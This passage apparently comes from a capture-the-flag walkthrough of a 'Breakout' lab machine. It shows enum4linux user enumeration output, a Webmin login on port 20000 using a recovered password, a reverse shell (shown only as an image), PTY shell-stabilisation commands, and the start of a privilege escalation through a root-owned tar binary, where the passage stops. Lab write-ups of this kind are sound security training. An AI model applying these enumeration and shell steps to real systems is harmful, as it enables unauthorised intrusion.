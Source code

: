 ```shell
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\cyber (Local User)

[+] Enumerating users using SID S-1-5-21-1683874020-4104641535-3793993001 and logon username '', password ''

S-1-5-21-1683874020-4104641535-3793993001-501 BREAKOUT\nobody (Local User)
S-1-5-21-1683874020-4104641535-3793993001-513 BREAKOUT\None (Domain Group)

 ===============================( Getting printer info for 172.16.86.149 )===============================

No printers returned.


enum4linux complete on Mon Nov 13 06:25:06 2023
```

And we got a user named `cyber`.

Now, we use the `cyber/.2uqPEfj3D<P'a-3` to try to login webmin, and we can login sucess in 20000 port, and we can get a shell:

![image-20231113194558547](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311131945698.png)

### 2. Stabilish Shell

We can get a reverse shell follow the command:

![image-20231113195342116](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311131953275.png)

And then, we can stabilish it with the method:

```shell
export TERM=xterm
python3 -c "import pty;pty.spawn('/bin/bash')"
(press CTRL+Z)
stty raw -echo;fg;reset
```

![image-20231113195709791](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311131957963.png)

## 4. Privilege Escalation

There is a `tar` file in cyber directory, and it's privilege is root:

```shell
cyber@breakout:~$ ls -la tar
-rwxr-xr-x 1 root root 531928 Oct 19  2021 tar
```
